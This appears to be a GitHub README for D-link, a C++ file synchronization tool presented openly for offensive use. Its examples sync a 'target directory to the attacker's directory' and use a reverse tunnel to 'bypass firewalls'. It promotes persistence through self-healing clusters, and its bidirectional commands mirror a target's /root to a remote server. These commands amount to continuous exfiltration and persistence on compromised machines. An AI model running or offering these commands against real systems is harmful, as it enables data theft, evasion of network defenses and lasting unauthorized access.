

# D-link

D-link is a lightweight Linux file synchronization tool written in C++.

1. Directory monitoring with real-time synchronization updates.
2. Access control: Clients are only allowed to automatically upload and delete files, and cannot download sensitive files from the server. Even if synchronized files are deleted from the server, the client will help restore them to the server.
3. Persistence: Can be used with Tyrant or S-Clustr to form a powerful self-healing network cluster.
4. AES encryption for communication, ensuring that the file synchronization process is encrypted and protected from man-in-the-middle attacks.
5. Real-time display of uploaded and downloaded data during the file synchronization process.
6. Authentication using a key to prevent unauthorized synchronization operations.
7. Loopback address synchronization speed can reach up to 200MB/s, while LAN synchronization speed can reach around 20MB/s.

# Usage

```
$ ./dlink -h
```


## D-link Forward Tunnel (Client to Server File Synchronization)

Example: (Real-time synchronization of the target directory to the attacker’s directory)

Server:


```
$ ./dlink server --port <LOCAL-PORT> --path <PATH>
```


Client:

>Create a 200MB test file for transfer

`$ dd if=/dev/urandom of=rand_file bs=1M count=200`


```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --key <KEY>
```


Server:


 
Wireshark:


## D-link Reverse Tunnel (Server to Client File Synchronization)

PS: Typically used to bypass firewalls and prevent data interception.

Example: (Real-time synchronization of the attacker’s directory to the target directory)

Server:



```
$ ./dlink server --port <LOCAL-PORT> --path <PATH> --reverse
```


```
$ ./dlink client --endpoint <IP:PORT> --path <PATH> --key <KEY> --reverse 
```


## Bidirectional synchronization

Server:

```
$ ./dlink server --port 10098 --path /tmp/root --key abcdefgh&
$ ./dlink server --port 10099 --path /tmp/root --key abcdefgh --reverse
```

Client:

```
$ ./dlink client --endpoint "<SERVER>:10098" --path /root --key abcdefgh &
$ ./dlink client --endpoint "<SERVER>:10099" --path /root --key abcdefgh --reverse
```
